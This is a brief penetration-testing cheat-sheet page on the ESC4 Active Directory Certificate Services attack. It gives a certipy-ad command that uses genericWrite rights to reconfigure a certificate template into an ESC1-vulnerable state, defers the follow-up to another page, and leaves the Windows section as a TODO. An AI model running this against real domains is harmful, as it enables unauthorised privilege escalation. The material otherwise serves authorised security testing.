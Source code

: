 # ESC4

Thanks to the genericWrite permission, we can modify our template to make it vulnerable to ESC1.

{% tabs %}
{% tab title="Linux" %}
Make the template vulnerable

{% code overflow="wrap" %}
```bash
certipy-ad template -u <User>@<Domain> -p '<PASS>' -template <Template Name> -save-old -debug
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20230828151521.png" alt=""><figcaption></figcaption></figure>

Next use [esc1.md](esc1.md "mention") to exploit it
{% endtab %}

{% tab title="Windows" %}
//TODO
{% endtab %}
{% endtabs %}
